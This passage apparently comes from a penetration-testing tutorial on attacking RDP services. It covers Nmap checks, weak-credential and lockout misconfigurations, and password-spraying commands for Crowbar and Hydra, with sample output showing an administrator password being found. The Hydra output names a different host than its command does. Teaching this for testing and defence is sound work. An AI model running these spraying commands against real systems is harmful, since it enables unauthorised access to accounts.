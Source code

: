 Nmap has several RDP-specific scripts that can:

* Check supported security protocols
* Test for known vulnerabilities
* Verify NLA (Network Level Authentication) settings

### Common Misconfigurations

#### Authentication Issues

RDP services can be vulnerable to authentication-related issues:

1. **Weak Credentials**: Default or easily guessed passwords
2. **No Account Lockout Policy**: Allows unlimited password attempts
3. **NLA Disabled**: Enables pre-authentication vulnerabilities

#### Password Spraying

When an account lockout policy isn't configured or is too lenient, password spraying can be effective:

```bash
# Using Crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

Example output:

```
2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

#### Using Hydra

```bash
# Password spraying with Hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

Example output:

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-25 21:44:52
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-25 21:44:56
```
